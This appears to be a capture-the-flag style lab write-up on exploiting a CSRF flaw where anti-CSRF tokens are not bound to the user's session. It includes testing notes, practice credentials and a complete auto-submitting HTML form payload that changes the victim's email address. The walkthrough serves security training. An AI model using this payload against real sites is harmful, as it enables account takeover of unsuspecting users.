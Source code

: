 # CSRF where token is not tied to user session
# Objective
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:\
- `wiener:peter`
- `carlos:montoya`

# Solution
## Analysis
Even though the website have `csrf` token website might not assosiate `csrf` token with adequate user `session`. 

|![](Images/image-6.png)|
|:--:| 
| *Test of change email functionality (user wiener) - CSRF token is preset* |
|![](Images/image-7.png)|
| *Test of change email functionality (user carlos) - CSRF token is preset* |

## Test attack
`csrf` token is not tied to user session.

|![](Images/image-8.png)|
|:--:| 
| *Dropped change email request - user wiener* |
|![](Images/image-9.png)|
| *Change email request with wiener's csrf token* |



## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - Craft POST request with validm, unused `csrf` token, that is not tied to user session
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="POST" action="URL/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="VALID_CSRF">
</form>

<script>
        document.forms[0].submit();
</script>
```

|![](Images/image-10.png)|
|:--:| 
| *Copy the csrf token of valid change email request* |
|![](Images/image-11.png)|
| *Deliver payload to victim* |
